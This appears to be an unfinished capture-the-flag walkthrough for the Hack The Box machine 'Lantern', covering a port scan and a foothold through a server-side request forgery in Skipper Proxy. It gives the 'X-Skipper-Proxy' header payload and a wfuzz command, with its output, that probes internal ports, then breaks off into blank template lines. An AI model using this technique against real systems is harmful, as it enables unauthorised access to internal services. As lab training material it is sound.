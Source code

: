 ## Linux Hard Machine Lantern

- [+] :	Target IP
   >>	10.129.235.127
   
   
## Recon

| PORT     | STATE | | SERVICE |
| 22/tcp |   | open|  | ssh |
| 80/tcp |  | open|  | http |
| 3000/tcp | | open|  | ppp |

>> We can Post a pdf or whatever if we modify the name of the file as .pdf 

- [+] :	VHOST Enum 
   >>	0 subdomain

- [+] :	Code source recon
   >>	author = Devcrud

- [+] :	Webservers
   >>	port 80 webserver: Skipper Proxy (Vulnerable)
   >>	port 3000 webserver: kestrel

------------------------
## Foothold 
port 80 webserver is vulnerable to SSRF https://www.exploit-db.com/exploits/51111


Proof Of Concept:

1- Add header "X-Skipper-Proxy"  to your request
2- Add the aws metadata to the path (no need to do this for our scenario)

X.Skipper-Proxy: http://localhost:§payload_intruder§

or wfuzz it for more speed of response 
```bash
wfuzz --hc 503 -c -z file,"/usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt" -t 100  -H "X-Skipper-Proxy: http://localhost:FUZZ" http://lantern.htb/
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lantern.htb/
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000023:   500        1 L      3 W        22 Ch       "0022"         
000000081:   200        224 L    836 W      12049 Ch    "0080"         
000003001:   200        57 L     117 W      2854 Ch     "3000"         
000005001:   200        49 L     123 W      1669 Ch     "5000"         
000008001:   200        224 L    836 W      12049 Ch    "8000"  
```
so we can check it manually in burpsuite 

port 8000 and 80 seems to be our main lantern.htb page , port 3000 and 5000 and the .net core web app 

So Im thinking that i could read the dlls through the port 5000 , since its not exposed to the internet (in the scenario) so it the local port of the webapp

It must have some intersting dll that I could decompile 


- [+] :	
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

